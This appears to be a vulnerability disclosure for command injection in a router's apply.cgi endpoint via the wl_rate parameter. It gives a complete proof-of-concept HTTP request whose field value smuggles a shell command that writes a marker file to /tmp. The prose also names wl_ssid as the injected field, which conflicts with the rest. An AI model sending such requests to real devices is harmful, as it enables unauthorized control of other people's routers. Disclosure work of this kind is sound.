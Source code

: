 # wl_rate

in function `start_EPI`, we can inject `wl_ssid` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 137
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_rate=%3Becho%20%22hacker_payload_wl_rate%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s
```



# result
I successfully touch a file with the content "hacker_payload_wl_rate"
![alt text](imgs/image.png)
